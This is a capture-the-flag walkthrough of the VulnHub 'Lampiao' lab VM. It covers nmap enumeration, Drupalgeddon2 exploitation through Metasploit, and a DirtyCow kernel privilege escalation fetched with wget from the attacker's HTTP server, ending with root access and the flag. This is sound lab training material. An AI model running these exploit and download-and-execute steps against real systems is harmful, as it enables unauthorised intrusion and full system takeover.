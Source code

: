 # LAMPIAO: 1

## 1.Get VM IP:
```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.241 00:0c:29:41:3c:b3       VMware, Inc.
192.168.127.254 00:50:56:e5:26:19       VMware, Inc.
```

The ip address is `192.168.127.241`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -v -oN nmap.out 192.168.127.241

Nmap scan report for 192.168.127.241
Host is up (0.0021s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings:
|   NULL:
|     _____ _ _
|     |_|/ ___ ___ __ _ ___ _ _
|     \x20| __/ (_| __ \x20|_| |_
|     ___/ __| |___/ ___|__,_|___/__, ( )
|     |___/
|     ______ _ _ _
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Lampi\xC3\xA3o
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94%I=7%D=11/11%Time=654F4B57%P=x86_64-pc-linux-gnu%r(NUL
SF:L,1179,"\x20_____\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\|_\x20\x20\x20_\|\x20\|\x20\(\
SF:x20\)\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\n\x20\x20\|\x20\|\x20\|\x20\|_\|/\x20___\x20\x20\x20\x20___\x20\x2
SF:0__\x20_\x20___\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:n\x20\x20\|\x20\|\x20\|\x20__\|\x20/\x20__\|\x20\x20/\x20_\x20\\/\x20_`
SF:\x20/\x20__\|\x20\|\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20_
SF:\|\x20\|_\|\x20\|_\x20\x20\\__\x20\\\x20\|\x20\x20__/\x20\(_\|\x20\\__\
SF:x20\\\x20\|_\|\x20\|_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\\___/\x20\\__\
SF:|\x20\|___/\x20\x20\\___\|\\__,_\|___/\\__,\x20\(\x20\)\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20__/\x20\|/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|___/\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\n______\x20_\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\n\|\x20\x20___\(_\)\x20\x20\
SF:x20\x20\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\|\n
SF:\|\x20\|_\x20\x20\x20_\x20\x20\x20\x20__\|\x20\|_\x20\x20\x20_\x20_\x20
SF:__\x20___\x20\x20\x20__\x20_\x20\x20\x20\x20___\x20\x20__\x20_\x20_\x20
SF:\x20\x20_\x20\x20__\x20_\|\x20\|\n\|\x20\x20_\|\x20\|\x20\|\x20\x20/\x2
SF:0_`\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20\\\x20/\x20_`\x20\|\x20\
SF:x20/\x20_\x20\\/\x20_`\x20\|\x20\|\x20\|\x20\|/\x20_`\x20\|\x20\|\n\|\x
SF:20\|\x20\x20\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|_\|\x20\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|\x20\x20__/\x20\(_\|\x20\|\x20\
SF:|_\|\x20\|\x20\(_\|\x20\|_\|\n\\_\|\x20\x20\x20\|_\|\x20\x20\\__,_\|\\_
SF:_,_\|_\|\x20\|_\|");
MAC Address: 00:0C:29:41:3C:B3 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is nothing on port 80, but on port 1898 we have a drupal CMS :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0d03b0e1-6b1b-4b18-bab8-e9fb83ac3fd4)

as what we do first when encountering a CMS is to check the version i just was curious about the version number.

we can see from `robots.txt` that there is a directory `/CHANGELOG.txt` which reveals the version number of this CMS :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/75a9b12f-7c07-4ded-974c-071e2a7a4999)

so i just searched for any exploit with this version on the internet and came accross [this](https://www.exploit-db.com/exploits/41564) exploit but it did not work

because we have no `rest_endpoint` or `rest` in web server as it mentions in the code.

so using searchsploit i found another one which suits our situation :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/065d5f0f-37de-4019-b386-1b5cd4333e4c)

i used `Drupalgeddon2` from metasploit to get the shell.

## 3.Gaining Shell

In metasploit :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e6e85c62-d67e-4771-a186-e5449f3c1cbe)

use `exploit/unix/webapp/drupal_drupalgeddon2` and you will get the shell :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0ca7fd90-88af-4caf-851d-85e8ebbd39e2)

yes, we got the shell

## 4.Privilege Escalation

Now we just check the kernel version and find any exploit for it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fcf13d1b-a184-48f4-9e75-7b63087a6af7)


use `linux-exploit-suggester.sh` to find any exploit for this kernel :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/593d1aad-9d5a-4ace-a9c6-6666acf43d74)


download dirycow 2 exploit and compile it on the server :

```bash
root@kali: searchsploit -m https://www.exploit-db.com/download/40847
root@kali: python3 -m http.server 80

www-data@lampiao:/tmp$ wget http://192.168.127.128/40847.cpp

www-data@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o output 40847.cpp -lutil
www-data@lampiao:/tmp$ ./output
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)

www-data@lampiao:/tmp$ su root
su root
Password: dirtyCowFun

root@lampiao:/tmp# cd /root

root@lampiao:~# cat flag.txt
cat flag.txt
9740616875908d91ddcdaa8aea3af366
```

this is how you can get root on this machine :)







